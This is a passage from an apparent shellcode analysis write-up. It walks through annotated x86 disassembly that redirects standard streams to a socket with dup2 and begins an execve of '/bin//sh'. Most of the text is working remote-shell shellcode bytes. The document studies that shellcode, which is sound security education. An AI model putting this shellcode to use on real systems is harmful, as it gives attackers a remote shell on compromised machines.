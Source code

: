 {% sidenote Redirect `stdin` to the previously-created socket %}

```nasm
                            ; clear EAX
00000056  31C0              xor eax,eax

                            ; 2nd argument of dup2(): stdout
00000058  41                inc ecx

                            ; 1st argument of dup2(): the IPv6 socket
00000059  89F3              mov ebx,esi

                            ; call syscall dup2()
0000005B  B03F              mov al,0x3f
0000005D  CD80              int 0x80
```

{% sidenote Redirect `stdout` to the previously-created socket %}

```nasm
                            ; clear EAX
0000005F  31C0              xor eax,eax

                            ; 2nd argument of dup2(): stderr
00000061  41                inc ecx

                            ; 1st argument of dup2(): the IPv6 socket
00000062  89F3              mov ebx,esi

00000064  B03F              mov al,0x3f
00000066  CD80              int 0x80
```

{% sidenote Redirect `stderr` to the previously-created socket %}

So far the disassembly I analysed is equal to the following C code:

```cpp
dup2(fd, 0);
dup2(fd, 1);
dup2(fd, 2);
```

Next, a shell is spawned.

```nasm
                            ; clear EDX and EAX
                            ; 3rd argument of execve(): envp
                            ;   array of pointers to strings (env. variables)
                            ; in this case it's a null pointer
00000068  31D2              xor edx,edx
0000006A  F7E2              mul edx

                            ; push a string to the stack and add 4 null bytes at the end
                            ;   string: /bin//sh
0000006C  52                push edx
0000006D  682F2F7368        push dword 0x68732f2f
00000072  682F62696E        push dword 0x6e69622f

                            ; 1st argument of execve(): pathname, a pointer to the
                            ;   executable to run
00000077  89E3              mov ebx,esp

                            ; array of pointers to command-line arguments
                            ;   - EBX -> "/bin//sh"
                            ;   - EDX -> 0x00000000 
00000079  52                push edx
0000007A  53                push ebx

```